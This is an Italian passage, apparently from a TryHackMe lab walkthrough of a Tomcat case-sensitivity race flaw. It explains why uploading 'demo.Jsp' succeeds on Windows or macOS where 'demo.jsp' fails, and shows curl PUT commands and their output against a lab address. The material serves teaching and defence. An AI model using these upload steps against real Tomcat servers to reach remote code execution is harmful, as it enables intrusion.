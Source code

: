 ```xml
  </init-param>
  <load-on-startup>1</load-on-startup>
</servlet>
```

La seconda condizione per sfruttare questa vulnerabilità è che Tomcat venga eseguito su un sistema che non fa distinzione tra maiuscole e minuscole, come MS Windows o macOS. Quando queste due condizioni sono soddisfatte, sfruttare questa vulnerabilità è una questione di corsa con il sistema operativo .

Nei sistemi case-sensitive come Linux , `demo.jsp`e `demo.Jsp`sono due file diversi. Di conseguenza, su un sistema Linux, non è impossibile vedere `documents`e `Documents`coesistere nella stessa directory.

Poiché il sistema MS Windows è insensibile alle maiuscole e alle minuscole `demo.jsp`e `demo.Jsp`non può essere costituito da due file diversi; tuttavia, per Tomcat, il primo è un servlet che può essere eseguito, mentre il secondo è trattato come un file di testo. In altre parole, MS Windows `demo.Jsp`non tratterebbe diversamente da come tratterebbe un servlet correttamente denominato `demo.jsp`; è il controllo della distinzione tra maiuscole e minuscole di Tomcat che impedirà `demo.Jsp`l'esecuzione e impedirà di trattarlo come un file eseguibile.

Se proviamo a creare il file `demo.jsp`, ad esempio, using `curl -X PUT -d "test" http://10.10.191.41:8080/demo.jsp`  produrrà un errore. Questo errore è previsto poiché i servlet possono eseguire comandi sul lato server; pertanto, consentire agli utenti di caricare `.jsp`file fornisce loro la capacità di esecuzione di codice remoto ( RCE ). Nel terminale sottostante, vediamo un errore di esempio.

Terminale AttackBox

```shell-session
root@tryhackme:~# curl -X PUT -d "test" http://10.10.191.41:8080/demo.jsp
<!doctype html><html lang="en"><head><title>HTTP Status 404 – Not Found</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 404 – Not Found</h1><hr class="line" /><p><b>Type</b> Status Report</p><p><b>Message</b> JSP file [&#47;demo.jsp] not found</p><p><b>Description</b> The origin server did not find a current representation for the target resource or is not willing to disclose that one exists.</p><hr class="line" /><h3>Apache Tomcat/10.1.30</h3></body></html>
```

Creiamo un file con estensione `Jsp`o `JSP`. Questo passaggio dovrebbe funzionare correttamente, poiché Tomcat non vede tali estensioni come eseguibili. Possiamo vedere che il `demo.Jsp`file è stato creato correttamente sul server.


```
curl -X PUT -d "test" http://10.10.191.41:8080/demo.Jsp
```

```
curl http://10.10.191.41:8080/demo.Jsp
```
```
test
```
